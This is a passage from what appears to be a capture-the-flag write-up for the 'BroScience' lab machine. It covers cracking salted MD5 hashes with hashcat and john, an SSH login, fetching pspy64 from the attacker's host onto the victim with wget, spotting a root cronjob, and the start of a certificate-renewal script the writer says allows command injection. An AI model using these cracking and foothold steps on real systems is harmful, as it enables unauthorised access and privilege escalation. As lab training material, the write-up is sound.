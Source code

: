 ```bash
$ hashcat -m 20 hashes ~/wordlists/rockyou.txt
```
But this didn't work. Then I went another route, I created a modified version of rockyou.txt with the salt added to the words of the wordlist:

```bash
$ sed 's/^/N**REDACTED**l/' ~/wordlists/rockyou.txt > rockyou2.txt 2>/dev/null
$ cat hashes.txt
administrator:15657792073e8a843d4f91fc403454e1 
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85
$ john -w=rockyou2.txt hashes.txt --format=Raw-MD5                     
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=3
Press 'q' or Ctrl-C to abort, almost any other key for status
Na**REDACTED**ym (bill)     
Na**REDACTED**es (michael)   
```

After logging into ssh through bill and the above found password. We can do some reconnaissance on the system. We setup a server on our machine that will provide `pspy64`. Once we download it to `/tmp` on the victims machine, we find out a root cronjob is running that is running a `renew_cert.sh` script.

```
bill@broscience:~$ cd /tmp
bill@broscience:/tmp$ wget http://10.10.14.19/pspy64 -o pspy64
bill@broscience:/tmp$ chmod +x pspy64
bill@broscience:/tmp$ ./pspy64
...
2023/04/07 08:42:01 CMD: UID=0     PID=7127   | /usr/sbin/CRON -f 
2023/04/07 08:42:01 CMD: UID=0     PID=7128   | /usr/sbin/CRON -f 
2023/04/07 08:42:01 CMD: UID=0     PID=7129   | /bin/bash /root/cron.sh 
2023/04/07 08:42:01 CMD: UID=0     PID=7130   | /bin/bash /root/cron.sh 
2023/04/07 08:42:01 CMD: UID=0     PID=7131   | /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
2023/04/07 08:42:01 CMD: UID=0     PID=7133   | /bin/bash /root/cron.sh 
2023/04/07 08:42:01 CMD: UID=0     PID=7134   |
```

Looking at the `renew_cert.sh` script, we can this script checks the expiration date of the certificates and when it's close to expiring it will print out the information and  see the ability to inject commands in the `commonName` variable.

```bash
bill@broscience:/tmp$ cat /opt/renew_cert.sh
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
```